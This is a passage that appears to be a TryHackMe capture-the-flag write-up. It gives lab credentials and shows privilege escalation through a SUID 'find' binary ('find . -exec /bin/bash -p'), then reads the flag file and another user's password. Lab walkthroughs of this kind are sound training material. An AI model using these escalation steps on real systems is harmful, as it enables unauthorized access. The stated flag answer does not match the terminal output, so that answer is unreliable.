1. What are the login credential for initial access. Answer format should be in username:password

`tryhackme:thebest`

## Task 2 SUID :: Binary 1

Read the flag.txt from des's home directory.

```
tryhackme@THM_exploit:~$ find / -type f -perm -u=s -user des -ls 2> /dev/null
   262721    236 -rwsr-sr-x   1 des      des        238080 Nov  5  2017 /usr/bin/find
tryhackme@THM_exploit:~$ ls -la /usr/bin/find
-rwsr-sr-x 1 des des 238080 Nov  5  2017 /usr/bin/find
```

[https://gtfobins.github.io/gtfobins/find/](https://gtfobins.github.io/gtfobins/find/)

```
tryhackme@THM_exploit:~$ find . -exec /bin/bash -p \; -quit
bash-4.4$ whoami
des
bash-4.4$ cd /home/des/
bash-4.4$ ls -la
total 52
drwx------ 4 des  des  4096 Jan 17  2020 .
drwxr-xr-x 6 root root 4096 Jan 17  2020 ..
-rw------- 1 root root 1740 Jan 12  2020 .bash_history
-rw-r--r-- 1 des  des   220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 des  des  3771 Apr  4  2018 .bashrc
-rwsr-xr-x 1 kel  kel  8600 Jan 17  2020 bof
-rw-r--r-- 1 root root  335 Jan 17  2020 bof64.c
drwx------ 2 des  des  4096 Jan 12  2020 .cache
-r-x------ 1 des  des   237 Jan 17  2020 flag.txt
drwx------ 3 des  des  4096 Jan 12  2020 .gnupg
-rw-r--r-- 1 des  des   807 Apr  4  2018 .profile
bash-4.4$ cat flag.txt
Good job on exploiting the SUID file. Never assign +s to any system executable files. Remember, Check gtfobins.

You flag is THM{V0N318*****exploit_the_SUID}

login crdential (In case you need it)
username: des
password: destructive_72656275696c64
```

`username: des password: destructive_72656275696c64`

1. What is the contents of /home/des/flag.txt?

`THM{V0N318*****exploit_the_SUID12**123:))}`

## Task 3 Buffer Overflow :: Binary 2

Read the flag.txt from kel's home directory.
